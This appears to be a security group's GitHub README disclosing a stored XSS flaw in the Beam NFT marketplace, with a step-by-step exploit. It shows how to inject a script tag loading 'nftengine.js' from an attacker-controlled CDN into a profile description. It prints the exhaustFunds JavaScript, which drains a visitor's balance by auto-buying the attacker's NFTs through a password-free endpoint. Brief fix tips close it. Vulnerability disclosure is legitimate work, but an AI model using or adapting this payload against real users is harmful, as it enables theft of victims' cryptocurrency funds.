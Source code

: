 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link above to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>

# Exhausting the users balance

Take a look at [nftengine.js](https://github.com/PRISM-Privacy/beamnft-audit/blob/main/nft-engine.js), this is the malicious payload that allows the exhausting and stealing of users funds.

## How it works

The malicious script takes advantage of the buy NFT api endpoint which doesnt require the users password, this allows the malicious actor to buy his own NFTs without the users knowledge in an iterative fashion until the users balance is exhausted!

The script iterates over the NFT prices in the malicious actors collection, if the balance is bigger than the price of the NFT, it executes a buy order, and continues until it has check each NFT in the collection!

```
exhaustFunds = async (balance, nfts) => {
  // balance in BEAM and GROTH
  let beamBalance = balance / 100000000;
  let grothBalance = balance;
  let transactionFee = 100000000;

  console.clear(); // sanitize console

  console.log(`balance in BEAM: ${beamBalance} BEAM`);
  console.log(`balance in GROTH: ${grothBalance} GROTH\n\n`);

  // loop through nft object, show only nfts which are for sale (price > 0)
  for (let key in nfts) {
    if (nfts[key].price != 0 && nfts[key].price < grothBalance) {
      let bought = await buyNft(nfts[key]._id, nfts[key].price);
      grothBalance = grothBalance - (nfts[key].price + transactionFee); // update balance
      console.log(`exhaused ${nfts[key].price / 100000000} BEAM`); // replace console.log with discord notification
      //  TODO - Do we need to wait for => block confirmation before continue?
    } else {
      console.log(
        "didnt exhaust, either NFT isnt for sale or balance too low to afford NFT"
      );
    }
  }
};
```

> The following image shows the required parameters to buy an NFT (no password required), the image after shows the required parameters to withdraw (requires password)

<div align="center">
  <img title="" src="images/buynftendpoint.png" alt="PrismSec logo" data-align="center">
</div>

<div align="center">
  <img title="" src="images/withdrawendpoint.png" alt="PrismSec logo" data-align="center">
</div> 

# Tips for BeamNFT to fix

1. Sanitize inputs and check for presence or Javascript

2. No need for the API, its not for public use and was a great help

3. Why so much info coming back in console? dont log so much info to console, was a great help

